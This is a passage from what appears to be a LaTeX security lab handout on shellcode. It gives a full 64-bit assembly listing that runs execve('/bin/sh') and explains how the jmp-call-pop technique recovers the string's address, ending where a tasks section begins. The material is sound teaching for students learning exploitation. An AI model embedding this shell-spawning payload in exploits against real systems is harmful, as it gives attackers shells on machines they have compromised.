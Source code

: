 \begin{lstlisting}[caption=A sample 64-bit shellcode (\texttt{mysh64.s})] 
section .text
  global _start
    _start:
       BITS 64
       jmp short two
    one:
       pop rbx             
       
       mov [rbx+8],  rbx  ; store rbx to memory at address rbx + 8
       mov rax, 0x00      ; rax = 0
       mov [rbx+16], rax  ; store rax to memory at address rbx + 16
       
       mov rdi, rbx       ; rdi = rbx        (*@\lineone@*) 
       lea rsi, [rbx+8]   ; rsi = rbx +8     (*@\linetwo@*)  
       mov rdx, 0x00      ; rdx = 0
       mov rax, 59        ; rax = 59
       syscall
    two:
       call one                                                                   
       db '/bin/sh', 0 ; The command string (terminated by a zero)  (*@\linethree@*) 
       db 'AAAAAAAA'   ; Place holder for argv[0] 
       db 'BBBBBBBB'   ; Place holder for argv[1]
\end{lstlisting}

The code above first jumps to the instruction at 
location \texttt{two}, which does another 
jump (to location \texttt{one}), but this time,
it uses the \texttt{call} instruction.  This instruction 
is for function call, i.e., before it jumps to
the target location, it saves the address
of the next instruction (i.e., the return address) 
on the top of the stack, so when
the function returns, it can return to the 
instruction right after the \texttt{call} instruction.  

In this example, the ``instruction'' right after the 
\texttt{call} instruction is not actually an instruction; 
it stores a string. However, this does not matter, the
\texttt{call} instruction will push its address (i.e.,
the string's address) into the stack, in the return
address field of the function frame. When we 
get into the function, i.e., after jumping to 
location \texttt{one}, the top of the stack 
is where the return address is stored. Therefore,
the \texttt{pop rbx} instruction actually
get the address of the string on Line \linethree,
and save it to the \texttt{rbx} register. That is how the 
address of the string is obtained. 


 

\paragraph{Tasks.} Please do the following tasks:

